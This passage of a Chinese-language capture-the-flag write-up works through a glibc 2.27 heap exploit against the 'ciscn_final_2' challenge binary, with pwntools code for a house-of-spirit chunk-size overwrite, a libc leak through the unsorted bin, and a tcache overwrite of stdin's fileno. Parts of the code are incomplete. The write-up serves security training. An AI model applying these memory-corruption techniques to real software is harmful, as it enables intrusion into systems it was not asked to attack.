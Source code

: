 修改 chunk0 size ：

```python
# house of spirt
add(2, heap_base+0x250)
add(2, heap_base+0x250)
# overwrite chunk0 size to 0x91
add(2, 0x91)
```

多次释放 chunk0 最后放入 unsortedbin 泄露 libc 地址：

```python
# leak libc address
# double free chunk0 into unsortedbin 
for i in range(0, 7):
    delete(1)
    add(2, 0x20)
delete(1)
 
leak_addr = show(1) - 96
libc_base = leak_addr - libc.sym['__malloc_hook'] - 0x10
```

修改 stdin 的 fileno 为 666 ：

```python
# write tcache fd 
add(1, stdin_fileno)

# house of sprit
add(1, 0x30) 
delete(1)
add(2, 0x20)
delete(1)
heap_base = show(1) - 0x290
log.info("heap_base:"+hex(heap_base))
add(1, heap_base+0x260)
add(1, heap_base+0x260)
add(1, 231)
add(1, 666)
```

#### EXP

```python
from pwn import *
context(binary="./ciscn_final_2",log_level='debug')
p = process("./ciscn_final_2", env={"LD_PRELOAD":"libc-2.27.so"})
elf = ELF("./ciscn_final_2")
libc = ELF("libc-2.27.so")

def add(type, num):
    p.sendlineafter('> ', '1')
    p.sendlineafter('>', str(type))
    p.sendafter(':', str(num))
 
def delete(type):
    p.sendlineafter('> ', '2')
    p.sendlineafter('>', str(type))
 
def show(type):
    p.sendlineafter('> ', '3')
    p.sendlineafter('>', str(type))
    if type == 1:
        p.recvuntil(':')
    elif type == 2:
        p.recvuntil(':')
```

[^1]: 用 fwrite 等这种流 I/O 函数写入写出，数据会先放在缓冲区，并没有真正输入或者输出，需要用 fflush 冲洗流中信息才完成写入写出。避免用 fflush 冲洗就用 setbuf 函数关闭缓冲（pwn 题初始化必备）